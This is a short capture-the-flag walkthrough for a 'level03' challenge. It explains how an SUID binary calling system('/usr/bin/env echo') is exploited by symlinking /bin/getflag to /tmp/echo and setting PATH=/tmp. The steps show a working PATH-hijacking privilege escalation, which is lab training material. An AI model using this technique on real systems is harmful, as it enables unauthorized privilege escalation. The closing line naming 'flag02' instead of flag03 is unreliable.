 ### Solution

1. **List files in the home directory:**

	```bash
	ls -l
	```

	You’ll see the following SUID binary:

	```
	-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
	```

	This binary is **owned by `flag03`** and **has the SUID bit set**, meaning it runs with `flag03`’s privileges when executed.

2. **Analyze the binary with Ghidra:**

	Using Ghidra you’ll discover the binary runs:

	```c
	system("/usr/bin/env echo Exploit me");
	```

	This means it uses `/usr/bin/env` to find and execute the first `echo` command in your `$PATH`.

3. **Exploit it by creating a link between files**

	Create a directory and a fake `echo` that actually runs `getflag`:

	```bash
	ln -s /bin/getflag /tmp/echo
	```

4. **Set your custom `PATH`**

	```bash
	export PATH=/tmp
	```

5. **Run the vulnerable binary**

	```bash
	./level03
	```

	Since the binary runs `system("/usr/bin/env echo ...")`, and your `PATH` has a fake `echo`, this runs:

	```
	/bin/getflag
	```

	You’ll receive the `flag02` token.
